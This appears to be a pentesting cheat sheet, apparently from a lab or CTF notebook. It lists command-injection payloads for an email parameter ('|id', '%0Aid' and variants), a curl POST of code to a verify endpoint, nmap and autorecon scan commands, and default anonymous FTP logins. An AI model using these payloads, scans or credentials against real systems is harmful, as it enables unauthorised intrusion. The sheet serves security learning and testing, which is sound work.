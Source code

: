 ### Command Injection

```jsx
//?email=|+id
|id
||id
%0Aid
'|id
'||id
'%0Aid
"|id
"||id
"%0Aid
```

### Downloads

source code

```jsx
check password 
check hidden url => SQL Injection
```

### Post

```jsx
curl –X post –-data “code=2*2” http://192.168.1.1:50000/verify

//in burpsuite add 
Content-Type: application/x-www-form-urlencoded
```

## Service


### Port Scan

```jsx
sudo nmap -Pn -n 192.168.1.1 -sCV -p- --open -oN scan.txt

sudo nmap -p- --min-rate 1000 192.168.1.1 -oN ports.txt -Pn 
cat ports.txt | grep "^ *[0-9]" | grep "open" | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//'
sudo nmap -p 80 -sC -sV -A -Pn --min-rate 1000 192.168.1.1 
sudo nmap -F -sU 192.168.1.1 --min-rate 1000 --top-ports=100 --script=*enum

sudo env "PATH=$PATH" autorecon <IP>
```

### 21 - FTP

anonymous login

```jsx
anonymous : anonymous
anonymous :
ftp : ftp
```
